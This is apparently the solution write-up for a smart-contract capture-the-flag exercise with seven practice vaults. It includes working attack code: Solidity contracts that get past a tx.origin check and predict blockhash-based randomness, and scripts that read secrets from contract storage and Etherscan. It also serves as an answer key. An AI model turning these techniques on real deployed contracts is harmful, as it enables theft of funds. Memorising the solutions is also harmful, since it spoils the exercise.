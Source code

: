 # Smart Contracts Exercise 04: Unbreakable Vault -- Solution

The solved exercise 4 can be found in this repository.

## Vault01: A Password Password

To breach `Vault01`, you need to call the `breachVault` function in `test/Vault01.js` with the correct password. The password is the `keccak256` hash of the string `"password"`. Use `ethers.id("password")` to compute the hash and pass it to the function to successfully breach the vault. See [id docs](https://docs.ethers.org/v6/api/hashing/#id) for more.

```javascript
// Hash the "password" string using Keccak256
const hash = ethers.id("password");

// Breach the vault
await vault.connect(player).breachVault(hash);
```

## Vault02: Packet Sender

To breach `Vault02`, you need to call the `breachVault` function with the correct password. The password is the `keccak256` hash of the `msg.sender` address. Use `ethers.solidityPacked` to mimic `abi.encodePacked(msg.sender)`, first encode the player's address. See [solidityPacked docs](https://docs.ethers.org/v6/api/hashing/#solidityPacked) for more.

```javascript
// Using ethers.solidityPacked to mimic abi.encodePacked(msg.sender)
const encodedAddress = ethers.solidityPacked(["address"], [player.address]);

// Hash the encoded address using keccak256
const hash = ethers.keccak256(encodedAddress);

// Call breachVault with the derived value
await vault.connect(player).breachVault(hash);
```

## Vault03: Origins

To breach `Vault03`, you need to bypass the requirement that `msg.sender` must not be equal to `tx.origin`. This means the function must be called from a smart contract rather than directly from an externally owned account (EOA).

Deploy the `Vault03Attack` contract, passing the vault's address as a parameter. Then, call the `attack` function from the attack contract, which in turn calls `breachVault()`. Since the attack contract acts as an intermediary, `msg.sender` will be the attack contract, while `tx.origin` remains the player's address, satisfying the vault's condition.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IVault03 {
    function breachVault() external returns (bool);
}

contract Vault03Attack {
    IVault03 public vault;

    constructor(address _vaultAddress) {
        vault = IVault03(_vaultAddress);
    }

    function attack() external returns (bool) {
        return vault.breachVault(); // msg.sender != tx.origin
    }
}
```

This successfully updates `lastSolver` to the player's address, completing the challenge.

## Vault04: Pseudo-Random Trap

To breach `Vault04`, you need to provide a correct guess computed using `block.timestamp` and `blockhash(block.number - 1)`. Since both values are accessible during the same transaction, you can compute the correct guess on-chain and submit it immediately. Deploy the `Vault04Attack` contract, passing the vault's address as a parameter. Then, call the `attack` function from the attack contract, which computes the guess and calls `breachVault()` with the correct value.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IVault04 {
    function breachVault(uint256 _password) external returns (bool);
}

contract Vault04Attack {
    IVault04 public vault;

    constructor(address _vaultAddress) {
        vault = IVault04(_vaultAddress);
    }

    // Function to perform the attack
    function attack() external returns (bool) {
        // Compute the guess using on-chain values in the same transaction.
        uint256 guess = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        ) % 100;
        
        return vault.breachVault(guess);
    }
}
```

Since the guess is derived from predictable on-chain data and is used within the same transaction, the attack works by ensuring the `blockhash` and `timestamp` remain valid when the vault processes the request.

## Vault05: Fortune Teller

To breach `Vault05`, you need to use the `blockhash` of the block when the guess was locked in, but only after the next block has been mined. First, you lock the guess using `lockInGuess`. Then, you must wait for the next block and calculate the random number using `blockhash(lockInBlockNumber)`. The issue is that at the moment of locking in the password, we do not know the blockhash yet. We can only access the blockhash of the previous blocks. However, since the `blockhash` function only returns the blockhash for the last 256 blocks, otherwise it returns zero (see [Solidity documentation](https://docs.soliditylang.org/en/latest/units-and-global-variables.html)). Therefore, we simply lock in a 0 and mine 256 blocks before calling `breachVault` function.

```javascript
// Lock the zero
await vault.connect(player).lockInGuess(0);

// Mine 256 blocks
for (let i = 0; i < 256; i++) {
    await ethers.provider.send("evm_mine", []);
}

// Call breachVault()
await vault.connect(player).breachVault();
```

## Vault06: Explorer

Since the contract is verified on Etherscan, you can view the constructor arguments on [Sepolia Etherscan](https://sepolia.etherscan.io/address/0xA3a763bF62550511A0E485d6EB16c98937609A32#code).

```
-----Decoded View---------------
Arg [0] : _password (string): younailedit

-----Encoded View---------------
3 Constructor Arguments found :
Arg [0] : 0000000000000000000000000000000000000000000000000000000000000020
Arg [1] : 000000000000000000000000000000000000000000000000000000000000000b
Arg [2] : 796f756e61696c65646974000000000000000000000000000000000000000000
```

You can also find the password from a previous transactions that interacted with this contract. For example, see [this transaction](https://sepolia.etherscan.io/inputdatadecoder?tx=0xc1f544372d0e732537a72f5e6fba05ad2ef2346695519416bedd8f37d2f17a57). The password is "younailedit".

## Vault07: You Shall Not Pass!

To breach `Vault07`, you need to figure out the stored `password` string, which is located in the contract's storage. The storage layout of the contract reveals that the password is stored at slot 4.

| Name | Type | Slot | Offset | Bytes |
|------|------|------|--------|-------|
| `lastSolver` | `address` | 0 | 0 | 20 |
| `small1` | `uint8` | 0 | 20 | 1 |
| `small2` | `uint16` | 0 | 21 | 2 |
| `isActive` | `bool` | 0 | 23 | 1 |
| `big1` | `uint256` | 1 | 0 | 32 |
| `hashData` | `bytes32` | 2 | 0 | 32 |
| `big2` | `uint256` | 3 | 0 | 32 |
| `password` | `string` | 4 | 0 | 32 |

First, retrieve the value stored in slot 4. The last byte of the stored value in this slot contains metadata, indicating the length of the password string. You can decode the password by using the first `length` bytes from the slot's value, where `length` is computed from the last byte metadata.

After extracting the password string, you can compute the hash of the password using `keccak256(abi.encodePacked(password, playerAddress))`. Finally, pass the hashed password to the `breachVault` function to successfully breach the vault. The password is "youshallnotpassword".

```javascript
// Read the storage value at slot 4
slotValue = await ethers.provider.getStorage(vaultAddress, 4);

// Decode the password from the storage value
const tagHex = slotValue.slice(-2);
const tag = parseInt(tagHex, 16);
const length = tag / 2;
const actualDataHex = "0x" + slotValue.slice(2, 2 + length * 2);
const actualPassword = ethers.toUtf8String(actualDataHex);

// Hash the password and address
const hashedPassword = ethers.solidityPackedKeccak256(
    ["string", "address"], 
    [actualPassword, playerAddress]
);

// Call breachVault with the derived hashed password
const tx = await vault.breachVault(hashedPassword);
await tx.wait();
```
